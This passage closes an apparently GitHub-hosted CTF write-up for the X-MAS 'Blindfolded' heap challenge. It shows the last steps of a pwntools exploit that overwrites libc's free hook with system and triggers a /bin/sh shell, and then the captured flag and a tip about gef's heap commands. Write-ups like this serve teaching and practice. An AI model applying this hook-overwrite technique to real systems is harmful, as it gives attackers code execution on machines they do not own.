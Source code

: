 ``` python
do_malloc(7, 0x20, p64(libc.sym.system))    # free_hook points now to system 

do_free(6, wait=False)  # invoking it with /bin/sh

# we should have a shell after here
io.interactive()
```

At this point we've got a shell and can just cat the flag.

**X-MAS{1_c4n'7_533_my_h34p_w17h0u7_y0000u}**

I also got the [original](Blindfolded/private/real_src.c) source code from there if you want to compare it to [mine](Blindfolded/challenge_guessed.c).

All in all a really cool challenge that once again shows that "heap binaries are useless".
Lastly for debugging stuff like this exploit I can't recommend gef's heap functions enough, especially "heap bins", since they are an immense help when debugging exploits like this.

-- MMunier




